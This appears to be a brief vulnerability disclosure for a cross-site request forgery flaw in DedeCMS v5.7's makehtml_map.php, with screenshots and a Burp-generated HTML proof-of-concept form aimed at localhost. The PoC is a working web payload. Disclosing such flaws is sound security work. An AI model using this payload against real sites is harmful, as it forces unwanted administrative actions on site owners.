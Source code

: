 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/makehtml_map.php
![1](https://github.com/Hckwzh/cms/assets/128144400/154c73ce-df94-4095-a505-6127a211fe81)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/makehtml_map.php">
      <input type="hidden" name="dopost" value="site" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>






```
![2](https://github.com/Hckwzh/cms/assets/128144400/f7996259-c34f-4ced-a427-aa5e1f835717)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/58f2e2f5-6667-4864-9b2d-3a646f93162c)
